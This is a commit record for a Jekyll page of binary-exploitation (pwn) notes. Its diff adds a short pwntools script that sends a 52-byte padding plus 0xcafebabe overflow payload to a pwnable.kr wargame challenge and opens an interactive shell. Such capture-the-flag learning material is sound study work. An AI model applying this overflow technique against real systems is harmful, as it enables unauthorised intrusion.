

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 20063 px. Shown: the top 872 px of the window, without its empty margins (0-836 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 20673 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -838,3 +838,15 @@ Testing our payload we can see it works:
 pwndbg> x $ebp+8
 0xffffd630:     0x42424242
 ```
+
+<br>
+
+```python
+from pwn import p32, remote
+
+io = remote("pwnable.kr", 9000)
+print(io.read())
+payload = b"A"*52 + p32(0xcafebabe)
+io.sendline(payload)
+io.interactive()
+```
````
